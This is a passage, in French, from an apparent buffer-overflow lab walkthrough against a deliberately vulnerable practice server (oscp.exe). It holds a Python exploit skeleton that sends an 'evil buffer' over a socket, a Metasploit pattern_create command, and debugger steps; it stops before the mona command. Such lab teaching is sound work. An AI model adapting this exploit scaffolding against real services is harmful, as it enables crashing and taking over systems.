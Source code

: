 Exécutez le script fuzzer.py en utilisant python :python3 fuzzer.py

Le fuzzer enverra des chaînes de plus en plus longues composées d'As. Si le fuzzer plante le serveur avec l'une des chaînes, le fuzzer devrait se terminer avec un message d'erreur. Notez le plus grand nombre d'octets envoyés.

## Réplication des plantages et contrôle de l'EIP

﻿Créez un autre fichier sur votre boitier Kali nommé exploit.py avec le contenu suivant :

```
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Exécutez la commande suivante pour générer un modèle cyclique d'une longueur supérieure de 400 octets à la chaîne qui a planté le serveur (modifiez la valeur -l par celle-ci) :

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600`

Copiez la sortie et placez-la dans la variable de charge utile du script exploit.py.

Sous Windows, dans Immunity Debugger, rouvrez à nouveau oscp.exe en utilisant la même méthode qu'auparavant, puis cliquez sur l'icône de lecture rouge pour le faire fonctionner. Vous devrez le faire avant chaque fois que nous exécuterons exploit.py (que nous exécuterons plusieurs fois avec des modifications incrémentielles).

Sur Kali, exécutez le script exploit.py modifié :`python3 exploit.py`

Le script devrait à nouveau planter le serveur oscp.exe. Cette fois, dans Immunity Debugger, dans la zone de saisie de commande en bas de l'écran, exécutez la commande mona suivante, en modifiant la distance pour qu'elle soit de la même longueur que le motif que vous avez créé :
